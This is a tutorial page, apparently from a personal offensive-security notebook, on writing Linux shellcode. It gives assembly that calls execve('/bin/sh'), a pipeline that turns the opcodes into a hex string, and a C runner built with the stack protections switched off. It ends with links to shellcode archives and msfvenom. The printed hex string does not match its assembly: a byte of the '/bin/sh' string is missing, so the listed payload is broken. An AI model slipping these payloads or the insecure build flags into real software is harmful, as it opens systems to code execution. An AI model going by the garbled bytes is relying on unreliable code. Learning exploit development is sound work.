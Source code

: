 ```yaml
---
description: 10/17/2023
cover: >-
  https://4.bp.blogspot.com/-Vfh5oUmLq1s/VcjcrtDh-HI/AAAAAAAAArc/2eAVjFldSsw/s1600/adduser-metasploit.PNG
coverY: 0
---
```


# 🐚 Shellcode

## Introduction

<mark style="color:yellow;">Shellcode is a set of instructions that are injected by the user and executed by the binary</mark>.

It is usually within the "payload" of our exploit code.

Essentially, shellcode can allow us, attackers, to implement and execute code that never existed in the original binary.

#### How can I make shellcode?

* C
* Python
* x86 Assembly
* Hex strings

### How does it work?

Upon analyzing shellcode, you will come to notice that shellcodes utilize system calls, or syscalls.

#### What are syscalls?

<mark style="color:yellow;">These provide a way of requesting services from the kernel</mark>.

It allows a program to be able to interact with the underlying operating system the binary is existent on.

They are a way of communicating directly with the kernel and are the only entry point to the OS's kernel.

#### What can they do?

Syscalls exist in two primary forms, <mark style="color:yellow;">process control</mark> and <mark style="color:yellow;">file management</mark>.

We can end, terminate, create, allocate, and free memory with process control syscalls.

We can create, open, close, delete, and read files with file management syscalls.

## Shellcode Development

By following this methodology, we can create our own shellcode!

<mark style="color:yellow;">Create shellcode in Assembly, hexdump</mark> (<mark style="color:yellow;">`objdump`</mark><mark style="color:yellow;">/carve out with</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`grep`</mark><mark style="color:yellow;">/</mark><mark style="color:yellow;">`sed`</mark>), <mark style="color:yellow;">and convert our shellcode into a hex string. So, opcodes -> hexstring</mark>.

### Development

`shell.s`:

```nasm
SECTION .text
    global _start
_start:
    mul esi
    push rax
    mov rdi, "/bin/sh"
    push rdi
    mov rdi, rsp
    mov al, 59
    syscall
```

#### Note:&#x20;

What is the `59` you might ask? <mark style="color:yellow;">That is the syscall number for</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`execve()`</mark> that will execute `/bin/sh`.

Assemble and link:

```
nasm shell.s -f elf64 && ld shell.o -o shell
```

<mark style="color:yellow;">We can now execute this file and it will grant us a shell</mark>!

### Carving out Shellcode From our ASM Binary

{% code overflow="wrap" fullWidth="false" %}
```
objdump -d ./shell|grep -e '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
```
{% endcode %}

We now have a hex string that we can pass into a `char` buffer in C and call in a C program.

`poc.c`:

```c
#include <stdio.h>
#include <unistd.h>

unsigned char shellcode[] =
"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x73\x68\x00\x57\x48\x89\xe7\xb0\x3b\x0f\x05";

int main()
{
    int (*ret)() = (int(*)())shellcode;
    ret();
}

```

#### Compile:

```
gcc poc.c -o poc -z execstack -fno-stack-protector -no-pie
```

## Shell-Storm

{% embed url="https://shell-storm.org/shellcode/files/shellcode-603.html" %}

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.html" %}

## msfvenom

{% content-ref url="../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md" %}
[generating-shellcode-w-msfvenom.md](../malware-development/code-and-process-injection/generating-shellcode-w-msfvenom.md)
{% endcontent-ref %}

